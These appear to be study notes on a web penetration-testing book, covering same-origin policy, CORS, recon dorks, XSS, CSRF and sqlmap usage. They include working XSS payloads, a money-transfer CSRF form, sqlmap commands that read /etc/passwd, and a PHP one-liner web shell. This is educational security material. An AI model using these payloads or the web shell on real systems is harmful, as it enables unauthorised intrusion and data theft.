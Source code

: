 # Mastering Modern Web Penetration Testing notes
> Prakhar Prasad

## Ch1 - Common Security Protocols

### SOP

- Suppose you have logged into your email account on one tab. On another tab you have opened up a malicious website.
- If the malicious website tries to exfiltrate data from your email account through some JavaScript code, it will fail because of **same origin policy**.
- Only a website with the same **origin** will be allowed to do that: *protocol, port number, and the hostname of the webpage*.
- SOP is not only for JS but for cookies, AJAX, Flash, and so on. Data stored inside localStorage is also governed by this policy.
- Example: `http://google.com/` and `http://www.google.com/` do not have the same origin since the hostname is different.
- Run [this](code/sop.html) in your browser and take a look at the console.

### Switching origins

- Go to `google.com`
- In the console `document.domain = apple.com`
- **Can only switch origin if target page is a suffix of the current page.**
- So going from `images.google.com` to `google.com` will work. Not the reverse.
- Since `images.google.com` is not a suffix of `google.com` therefore it won't work.
- Also `google.com` to `com` won't work since it is a top-level domain.
- In chrome these protocols are allowed: `http, data, chrome, chrome-extension, https`

### CDM

- Cross-domain messaging.
- Introduced in HTML5, provides `postMessage()`

Sending
```js
receiver.postMessage('Hello','http://example.com')
```

Receiving
```js
window.addEventListener('message',function(event) {
if(event.origin != 'http://sender.com') return;
console.log('Received: ' + event.data,event);
},false);
```

### AJAX

- Allows exchanging data with the server without reloading the page. Works by using the XMLHTTPRequest() method of JS.
- But fetching or sending data to a server or URL which is at a different origin requires `Access-Control-Allow-Origin`
- Example [code](code/ajax.html)

### CORS

- A page running at origin A can send/receive data from a server at origin B.
- Web fonts, CSS, documents, and so on are loaded from different origins.
- Most CDNs which provide resource-hosting functionality typically allow any website or origin to interact with themselves.
- CORS works by adding a new HTTP header that allows the web server to interact with a list of whitelisted domains.
- CORS is browser enforced, the browser looks into the response headers and acts accordingly.

![CORS flowchart (soasta.com)](images/cors.jpg)

CORS headers
- Access-Control-Allow-Origin: response header
- Access-Control-Allow-Methods: response header
- Origin: request header

Pre-flight request
- Custom HTTP headers are sent
- The body MIME-type is different than text/plain
- The HTTP method is different than GET or POST

## Ch2 - Information Gathering

Google dorks
- backup.sql intext:"SELECT" ext:sql site:net
- Google Hacking for Penetration Testers
```
ext:pdf site:abhaynayar.com
site:abhaynayar.com
inurl:/downloads site:abhaynayar.com
intitle:login site:abhaynayar.com
backup.sql intext:"SELECT" ext:sql
```

Generate wordlists
```
$ cewl abhaynayar.com
```
Cookies, country, headers.
```
$ whatweb abhaynayar.com
```

Computer search engine
```
https://www.shodan.io/search?query=Werkzeug
```

Reverse IP Lookup
```
https://www.yougetsignal.com/tools/web-sites-on-web-server/
```

## Ch3 - XSS

### Reflected

Check if these characters are permitted `"'<>();[]{}AbC`

XSS in href attribute
```
javascript:alert(1)
javascript://%0d%0aalert(1);
javascript://%0d%0aalert(1);//http://derp.com
javascript://%0d%0alert(1);//.com
```

Correct values for JSON responses are typically `text/javascript` or `application/json` if your value is being reflected and if you get `text/html` try for an XSS.

### Stored

Markdown
```
[Hi](javascript:alert(1);)
```
Spoofed IP address
- Use the `X-Forwarded-For` header (used by HTTP proxies)
- `X-Forwarded-For: "><img src=x onerror=alert(0);>`

### Resources
- http://html5sec.org
- https://www.blueclosure.com/
- https://code.google.com/archive/p/domxsswiki/wikis/Introduction.wiki

## Ch4 - CSRF

JSON

```
<body onload=document.getElementById('xsrf').submit()>
<form id="xsrf" action="transfer" method=post enctype="text/plain">
<input name='{"username":"Attacker","amount":2500,"padding":"' value='garbage"}' type='hidden'>
</form>
```

- Sometimes the CSRF tokens aren't validated, try sending a request without a token.
- Sometimes the CSRF tokens are not mapped to the user, try using another user's token.
- Sometimes the CSRF token's presence is required but the value can be left blank or random string of same length.
- Sometimes the CSRF tokens do not have sufficient randomness, try guessing them.

## Ch5 - SQLi

[sqlmap](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

- technique: BEUSTQ
- dump:
    - `--current-user`
    - `--dbs`
    - `-D db_name --tables`
    - `-D db_name -T tbl_name --dump`
    - `-D db_name -T tbl_name --columns`
    - `-D db_name -T tbl_name --columns "col_name" --dump`
- `--wizard`
- `--dump-all`
- URL rewriting: uses \* as an injection point.
- Speeding up
    - `--threads 3`
    - `--null-connection`
    - `--keep-alive`
    - `--predict-output`
- Reading files
    - `--privileges`
    - `--file-read=/etc/passwd`
    - Ex. /var/www/config.inc , /var/www/html/config/config.inc.php
- Writing files
    - `--file-write=shell.php`
    - `--file-dest=/var/www/shell-php` 
    - PHP one-liner shell: `<?php system($_GET[1337]); ?>`
- POST requests
    - `-u URL --data="params" -p param_to_test`
    - Save the request and `sqlmap.py -r request.txt -p param_to_test`
- Cookies `--cookie="PHPSESSID=AAAAAAAAAAAAAAAAAAAAAAAA"`
- HTTP auth: `--auth-cred and --auth-type`
- Database shell: `--sql-shell`
- Command shell: `--os-shell` or `--os-cmd "uname -a"`
- Tamper: `--tamper charencode -v3`
- Proxy: `--proxy="https://proxy.example.com:8080"`
- Tor: `--tor`

